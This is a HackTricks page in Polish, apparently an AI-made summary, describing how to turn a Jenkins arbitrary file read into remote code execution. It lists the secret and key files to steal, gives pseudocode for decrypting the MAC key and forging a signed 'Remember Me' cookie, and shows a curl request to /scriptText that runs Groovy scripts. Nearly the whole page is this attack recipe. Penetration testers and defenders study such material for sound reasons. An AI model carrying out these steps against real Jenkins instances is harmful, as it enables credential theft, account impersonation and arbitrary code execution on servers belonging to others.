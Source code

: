 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym wpisie na blogu można znaleźć świetny sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której nadużywa się tworzenia dowolnego ciasteczka, aby uzyskać RCE, nadużywając lokalnego odczytu pliku, aż będę miał czas, aby stworzyć własne podsumowanie:

### Wymagania wstępne ataku

* **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
* **Poziomy dostępu:** Atakujący potrzebuje uprawnień Overall/Read.
* **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

* Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
* **Nazwa użytkownika**
* **Ziarno użytkownika**
* **Znacznik czasu**
* **Hash hasła**

**Ekstrakcja klucza sekretnego**

* Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
* **Klucz sekretu:** `$JENKINS_HOME/secret.key`
* **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
* **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

*   **Oblicz czas wygaśnięcia tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedną godzinę do bieżącego czasu
```
{% endcode %}
*   **Konkatenacja danych dla tokena:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Deszyfrowanie klucza MAC**

*   **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

*   **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac)  // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

*   **Generuj końcowe ciasteczko:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Koduj dane ciasteczka w base64
```
{% endcode %}

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

* **Pobierz tokeny CSRF i sesji:**
* Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
* Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "zapamiętaj mnie".

**Żądanie wykonania polecenia**

*   **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skrypt Groovy może być używany do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
